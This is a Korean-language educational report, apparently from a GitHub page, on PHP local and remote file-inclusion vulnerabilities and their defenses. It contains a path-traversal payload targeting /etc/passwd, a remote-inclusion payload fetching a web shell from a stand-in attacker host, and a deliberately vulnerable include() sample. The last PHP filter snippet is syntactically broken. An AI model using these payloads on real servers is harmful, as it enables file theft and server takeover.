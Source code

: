 # File Inclusion (LFI/RFI) 분석 보고서

## 1. File Inclusion 이란?

**의도치 않은 파일을 서버에 포함시키다**

- **정의:** 공격자가 웹 애플리케이션의 파일 포함(include) 기능을 악용하여, 의도치 않은 로컬 또는 원격 파일을 서버에서 실행시키는 취약점입니다.
- **종류:**
    - **LFI (Local File Inclusion):** 서버 내부에 있는 다른 파일을 포함시키는 공격.
    - **RFI (Remote File Inclusion):** 외부 서버에 있는 악성 파일을 포함시키는 공격. (PHP 설정에서 `allow_url_include`가 활성화된 경우 가능)
- **영향:**
    - **민감 정보 유출:** 시스템 설정 파일, 소스 코드, 사용자 정보 등을 탈취합니다.
    - **원격 코드 실행:** 공격자가 원하는 코드를 서버에서 실행하여 시스템을 장악합니다.
    - **서비스 거부(DoS):** 서버의 중요 파일을 손상시켜 서비스를 마비시킵니다.

---

## 2. 취약한 코드 분석 (예시)

**문제의 핵심: 사용자 입력값으로 파일 경로를 생성**

```php
// 사용자가 URL을 통해 입력한 페이지 이름
$page = $_GET['page'];

// 취약한 코드
// 애플리케이션은 'home', 'about' 같은 페이지를 불러오려고 의도했습니다.
include($page . '.php');
```

**핵심 문제점:** 사용자 입력값을 아무런 검증 없이 `include` 함수의 인자로 사용하여, 공격자가 파일 경로를 직접 조작할 수 있는 여지를 제공합니다.

---

## 3. 공격 시나리오 1: LFI (로컬 파일 인클루전)

**공격 목표:** 서버의 `/etc/passwd` 파일을 읽어 시스템 사용자 목록 확인하기

**공격 페이로드:** `../../../../etc/passwd%00`

**공격 과정:**
1.  공격자는 `../`를 반복 사용하여 상위 디렉터리로 이동합니다.
2.  `%00` (널 바이트)를 사용하여, 코드에서 자동으로 덧붙이는 `.php` 확장자를 무력화시킵니다.
3.  결과적으로 `include('../../etc/passwd%00.php')`가 아닌 `include('../../etc/passwd')`가 실행되어, `/etc/passwd` 파일의 내용이 화면에 출력됩니다.

---

## 4. 공격 시나리오 2: RFI (원격 파일 인클루전)

**공격 목표:** 외부의 악성 셸 스크립트를 서버에서 실행하여 원격 제어권 획득하기

**공격 페이로드:** `http://attacker.com/shell.txt`

**공격 과정:**
1.  공격자는 자신의 서버(`attacker.com`)에 PHP 웹 셸 코드가 담긴 `shell.txt` 파일을 준비합니다.
2.  공격자는 `page` 파라미터 값으로 해당 파일의 URL을 전달합니다.
3.  만약 서버의 PHP 설정에서 `allow_url_include`가 활성화되어 있다면, 서버는 공격자의 서버에서 `shell.txt` 파일을 다운로드하여 PHP 코드로 실행합니다.
4.  공격자는 웹 셸을 통해 서버의 제어권을 획득하게 됩니다.

---

## 5. 해결책: 화이트리스트 (Whitelist) 기반 처리

**가장 안전한 방법: 허용된 파일 목록을 만들어 사용하기**

```php
// 포함할 수 있는 파일들의 목록 (화이트리스트)
$allowed_pages = [
    'home' => 'pages/home.php',
    'about' => 'pages/about.php',
    'contact' => 'pages/contact.php'
];

// 사용자가 요청한 페이지
$page = $_GET['page'];

// 요청된 페이지가 화이트리스트에 있는지 확인
if (array_key_exists($page, $allowed_pages)) {
    // 목록에 있는 경우에만 해당 파일 경로를 사용
    include($allowed_pages[$page]);
} else {
    // 목록에 없으면 에러 페이지를 보여줌
    include('pages/error.php');
}
```

**작동 원리:** 사용자 입력값을 파일 경로 생성에 직접 사용하지 않고, 미리 정의된 안전한 파일 목록(화이트리스트)에서 값을 찾아 사용합니다. 이를 통해 공격자가 파일 경로를 조작할 가능성을 원천적으로 차단합니다.

---

## 6. 파일 인클루전 방어 전략

1.  **화이트리스트 사용 (가장 중요):** 포함할 파일 목록을 서버 측에 미리 정의하고, 이 목록에 있는 파일만 포함하도록 구현합니다.
2.  **`allow_url_include` 비활성화:** `php.ini` 설정에서 `allow_url_include = Off`로 설정하여 RFI 공격을 원천적으로 차단합니다.
3.  **`basename()` 함수 사용:** 사용자 입력값에 `basename()` 함수를 적용하여 디렉터리 순회 문자(`../`, `/` 등)를 제거합니다.
4.  **입력값 검증:** 파일 경로에 사용될 수 있는 위험한 문자(`../`, `/`, `
`, `%00` 등)를 필터링합니다.
5.  **`open_basedir` 설정:** PHP가 접근할 수 있는 파일 시스템의 경로를 특정 디렉터리로 제한합니다.

```php
// 예시: basename() 함수 사용
$page = basename($_GET['page']);

// 예시: 위험 문자 필터링 (간단한 예시)
$page = str_replace(array('../', '/', '\'), '', $page);
```

